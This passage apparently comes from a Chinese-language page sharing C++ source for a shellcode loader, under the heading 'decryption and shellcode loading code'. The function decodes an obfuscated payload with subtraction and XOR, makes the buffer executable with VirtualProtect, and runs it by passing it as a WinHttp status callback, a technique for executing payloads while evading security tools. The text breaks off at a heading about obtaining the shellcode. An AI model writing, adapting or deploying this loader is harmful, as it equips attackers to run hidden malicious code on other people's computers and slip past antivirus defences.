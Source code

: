 **解密和shellcode加载代码：**

```php
DWORD LoadSc(char* EncodeBuffer) {
    char buf[6000];
    strcpy(buf, EncodeBuffer);
    delete[] EncodeBuffer;
    char cd[10];
    char code;
    string buf_2 = buf;
    int num = 0,cnum = 0;
    int num_ = num + 4;
    for (int i = 0; i < sizeof(buf); i++) {
        if (buf[i] != (char)'\x0') {
            string str = buf_2.substr(num, num_);
            if (str.length() < 4) {
                break;
            }
            str.copy(cd, 4, 0);
            code = (char)(atoi(cd) - 1024) ^ 1024;
            buf[cnum] = code;
            cnum++;
            num_ += 4;
            num += 4;
        }
        else {
            break;
        }
    }
    DWORD Old = 0;
    BOOL IsExchange = VirtualProtect(&buf, 6000, PAGE_EXECUTE_READWRITE, &Old);
    if (!IsExchange) {
        cout << "[*] VirtualProtect Error " << endl;
        return -1;
    }
    cout << "[*] VirtualProtect Success" << endl;
    HINTERNET hopen = WinHttpOpen(L"User Agent", WINHTTP_ACCESS_TYPE_DEFAULT_PROXY, WINHTTP_NO_PROXY_NAME, WINHTTP_NO_PROXY_BYPASS, 0);
    WINHTTP_STATUS_CALLBACK callback = WinHttpSetStatusCallback(hopen, (WINHTTP_STATUS_CALLBACK)&buf, WINHTTP_CALLBACK_FLAG_HANDLES, NULL);
    if (callback == WINHTTP_INVALID_STATUS_CALLBACK) {
        cout << "[*] WinHttpSetStatusCallback Error" << endl;
        return -1;
    }
    cout << "[*] WinHttpSetStatusCallback Success" << endl;
    cout << "[*] Load Success  " << endl << endl;
    WinHttpCloseHandle(hopen); 
        return 1;
}
```

**获取shellcode：**
